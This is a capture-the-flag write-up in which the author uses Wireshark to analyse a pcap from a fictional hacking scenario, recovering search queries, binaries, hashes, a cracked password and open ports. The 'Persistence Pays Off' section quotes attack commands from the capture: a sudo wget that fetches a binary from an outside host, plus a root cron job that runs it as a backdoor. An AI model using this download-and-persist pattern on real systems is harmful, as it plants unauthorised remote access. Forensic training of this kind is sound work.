









# Network Traffic Analysis challenges
aka pcap challenges!

## Introduction
This writeup is for all the challenges under the category of `pcap`. All challenges use one pcap file, and each task requires analysis of different parts of the file.

## Monstrum ex Machina | 30pts
>Our person on the "inside" of Ghost Town was able to plant a packet sniffing device on Luciafer’s computer. Based on our initial analysis, we know that she was attempting to hack a computer in Lytton Labs, and we have some idea of what she was doing, but we need a more in-depth analysis. This is where YOU come in. We need YOU to help us analyze the packet capture. Look for relevant data to the potential attempted hack. To gather some information on the victim, investigate the victim’s computer activity. The "victim" was using a search engine to look up a name. Provide the name with standard capitalization: `flag{Jerry Seinfeld}`.

Firstly, I searched to see if there was a direct way to look for search engine fields as there were a LOT of packets to filter through. I didn't get anything, but I did find a list of possible search engines, some of which I didn't know existed, in [this article](https://stackoverflow.com/questions/55243226/using-python-to-search-through-a-pcap-file-and-return-key-information-about-the). This definitely helped finding the flag easier.

I started to look through packets till I found some HTTP requests and responses. One of them mentioned **baidu.com**, so I went and followed the HTTP stream from that point on. I found some JSON, which what looked like a bunch of search queries. Only one of them appeared to resemble a name, and I entered that as the flag. 



PS: This particular HTTP stream had an error with the spelling. It was only through searching this name myself did I realize this. 
   
From other writeups however, I found that there were packets where the spelling was correct. I didn't find those while the challenge was going on, so I reached out to the author of the challenge, and eventually both spellings were considered as the correct flag.

Flag: `flag{Charles Geschickter}`

## The SUM of all FEARS | 50pts
>After hacking a victim’s computer, Lucifer downloaded several files, including two binaries with identical names, but with the extensions `.exe` and `.bin` (a Windows binary and a Linux binary, respectively). What are the MD5 hashes of the two tool programs? Submit both hashes as the flag, separated by a `|`: `flag{ExeMD5|BinMD5}`

Once again, off to Google to find an easier way to search for the file, and I found a way through [this video!](https://www.youtube.com/watch?v=3WQ19weoBc4)

In summary, using the display filter `frame contains <text>` can be used to look for specific files. In the video, the `exe` file is found by looking for the file headers, aka `MZ`. Similarly the linux binary can be found by looking for `ELF`.

<div>


</div>

As seen, there are two binaries with identical names, **lytton-crypt.exe** and **lytton-crypt.bin**.

I initially thought that just this packet had the contents of the file, so I exported the bytes, calculated the MD5 sum for both and typed the flag. That didn't work. I removed the display filter, and found that the data is transferred in multiple parts (for both the `exe` and the `bin`).

I don't know of a way to extract data from multiple packets as one file yet, so I exported each part as a separate file and appended the data to the main file in the terminal. An example for the `bin` file is below:

**Step 1:** Export the data from the packets by right clicking on `FTP Data > Export Packet Bytes`.

**Step 2:** Append the data from each of the parts to the first part, `lytton-crypt.bin`.

```
$ cat lytton-crypt2.bin >> lytton-crypt.bin
$ cat lytton-crypt3.bin >> lytton-crypt.bin
```

The same steps were followed for the `exe` binary.

Now that we have the complete `exe` and `bin` binaries, it is time to calculate the MD5 hash and complete the challenge!

```
$ echo "flag{"$(md5sum lytton-crypt.exe | cut -d ' ' -f 1)"|"$(md5sum lytton-crypt.bin | cut -d ' ' -f 1)"}"
flag{9cb9b11484369b95ce35904c691a5b28|4da8e81ee5b08777871e347a6b296953}
```

PS: The `cut` command is added to remove the name of the file which is usually included in the output of `md5sum`.

Flag: `flag{9cb9b11484369b95ce35904c691a5b28|4da8e81ee5b08777871e347a6b296953}`

## Release the Crackin'! | 50pts
>Luciafer cracked a password belonging to the victim. Submit the flag as: `flag{password}`.

Off to Google AGAIN to look for ways to search for passwords, these challenges really taught me about features of Wireshark I had no idea existed. The solution for this challenge comes from [this video](https://www.youtube.com/watch?v=BFcl5OciJWc) about the Credentials feature in Wireshark.

By clicking on `Tools > Credentials`, Wireshark analyzes for potential usernames and passwords in this pcap file. I looked through some of the MANY packets listed, but then something struck. The last packet should be the one to check, as that would have the password through which the attacker logged in.



THERE WE GO! The password is darkangel.

Flag: `flag{darkangel}`

## Luciafer, You Clever Little Devil! | 50pts
>Luciafer gains access to the victim’s computer by using the cracked password. What is the packet number of the response by the victim’s system, saying that access is granted? Submit the flag as: `flag{#}`. NOTE: Use the packet response from her login, not from the password cracker.

The answer for this can be found in the last screenshot of the previous challenge. The packet number of the "User is logged in" response is the answer for this challenge.

Flag: `flag{159765}`

## Lucifer's Fatal Error | 50pts
>Luciafer, consummate hacker, got cocky and careless. She made a fatal mistake, and in doing so, gave control of her computer to... someone. She ran a program on her computer that she shouldn’t have. What is the md5sum of the program? Submit the flag as: `flag{MD5}`.

While searching for the `lytton-crypt` binaries, I found another binary called `secret-decoder.bin`. Viewing the contents of this file, we see a command to execute a shell.



That is enough evidence that this is the malicious program. I exported the bytes similar to the [SUM of all FEARS challenge](#sum-of-all-fears) and then calculated the MD5 hash. This binary was only in one packet so that was easy!

```
$ echo "flag{"$(md5sum secret-decoder.bin | cut -d ' ' -f 1)"}" 
flag{42e419a6391ca79dc44d7dcef1efc83b}
```

Flag: `flag{42e419a6391ca79dc44d7dcef1efc83b}`

## Scanners | 100pts
>Luciafer started the hack of the Lytton Labs victim by performing a port scan. Which TCP ports are open on the victim’s machine? Enter the flag as the open ports, separated by commas, no spaces, in numerical order. Disregard port numbers >= 16384. Example: `flag{80,110,111,143,443,2049}`.

From the previous challenge, we know that Lucaifer's IP address is `192.168.100.106` and the IP of the victim computer is `192.168.100.103`. So we have to look for packets sent from Lucaifer to the victim computer.

This can be done by setting a display filter `ip.src==192.168.100.106 && ip.dst==192.168.100.103` 

A feature that makes sorting through the packets even easier is the Conversations feature in Wireshark, which I found out from [this video](https://www.youtube.com/watch?v=Zi1aaEJg5YI) (yes, I referred to a lot of YouTube videos throughout these challs). This shows a summary of all the packets sent in this pcap file.



Before finding the port numbers, I checked the "limit to display filter" button in the bottom so that the information could be filtered further. After this, I started to look through the list and noted down the port numbers where more than one packet was sent, as is seen with port 21 in the above image. The ports found were `21`, `135`, `139`, `445` and `3389`.

Flag: `flag{21,135,139,445,3389}`

## Persistence Pays Off | 100pts
>Luciafer might have just bit off more than she can chew! She has encountered an adversary that is counter-attacking her system! Luciafer’s Lytton Labs adversary executed a command to attain persistence on her computer. This command will allow the adversary to regain a connection to her computer again later, even if she reboots it. What is the packet number where this command is executed. For example: `Flag{93721}`.

I went back to the packet where secret-decoder.bin was downloaded by Lucaifer to see if there was any adversary after installing it. The IP found was `192.168.100.105`.



I then filtered the packets using the display filter `ip.src==192.168.100.105 && ip.dst==192.168.100.106` and looked for any packets that may contain something suspicious.

A few packets were found with the following bash commands:

```
sudo wget -O /usr/bin/ll-connect.bin http://192.168.100.105/secret_decoder.bin
```
```
sudo chmod 755 /usr/bin/ll-connect.bin
```
```
sudo /bin/bash -c "echo '*/5 * * * * root /usr/bin/ll-connect.bin' > /etc/cron.d/da-ll-backup-job"
```
These may be to set up some sort of backdoor, I'm not very sure but the last command looks like an attempt to attain persistence.

The last command was found in packet `160468`, which is the flag for this challenge.



Flag: `flag{160468}`

## A Warning | 150pts
>Luciafer is being watched! Someone on the inside of Lytton Labs can see what she is doing and is sending her a message. One of them says: “Stay away from Lytton Labs... you have been warned.” To find the flag, find the message. You’ll know it when you see it. Submit the flag as `flag{flag-goes-here}`

While going through the packets for the previous challenge, I found two packets that had some interesting information. These packets were above the "Stay away from Lytton labs..." message.

```
echo DF7148BA7B69C3A27D85F78114E5A7C907A103CF0103B86C040983F593C6F016 > da-warning.txt
```
```
wget -O da-warning-message.jpg http://192.168.100.105/da-warning-message.jpg
```
 
I tried decoding the text in the first message, nothing. The second message, however, mentions an image called **da-warning-message.jpg**. I entered the display filter `frame contains "da-warning-message"` to see if I can get the image file in one of the packets.



This is the request packet, so I looked for the corresponding response packet, extracted the image, and found the challenge flag in the image.


Flag: `flag{angels-fear-to-tread}`
